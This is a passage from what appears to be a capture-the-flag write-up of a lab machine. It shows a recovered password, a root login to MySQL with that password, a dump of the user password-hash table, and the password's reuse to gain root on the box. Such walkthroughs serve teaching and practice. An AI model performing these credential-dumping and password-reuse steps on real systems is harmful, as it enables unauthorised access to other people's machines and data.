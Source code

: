 This is the output of the script in the command line:

![image](7.png)


And we get the password, which is:
```bash
kljh12k3jhaskjh12kjh3
```

Now we log in to the database to snoop around.

```bash
joshua@codify:/tmp/den$ /usr/bin/mysql -u "root" -h 0.0.0.0 -P 3306 -p"kljh12k3jhaskjh12kjh3"

```


```sh
mysql> SELECT Host, User, Password FROM user
    -> \g
+-----------+-------------+-------------------------------------------+
| Host      | User        | Password                                  |
+-----------+-------------+-------------------------------------------+
| localhost | mariadb.sys |                                           |
| localhost | root        | *4ECCEBD05161B6782081E970D9D2C72138197218 |
| 127.0.0.1 | root        | *4ECCEBD05161B6782081E970D9D2C72138197218 |
| %         | passbolt    | *63DA7233CC5151B814CBEC5AF8B3EAC43347A203 |
| %         | joshua      | *323A5EDCBFA127CC75F6C155457533AC1D5C4921 |
| %         | root        | *4ECCEBD05161B6782081E970D9D2C72138197218 |
+-----------+-------------+-------------------------------------------+
6 rows in set (0.00 sec)
```

There is a password hash for root, but I didn't manage to crack it this time. After some headaches, I realised that I never tried to log in as root using the password that I discovered with the python script. I put in the password for root and voilà, the machine is rooted.
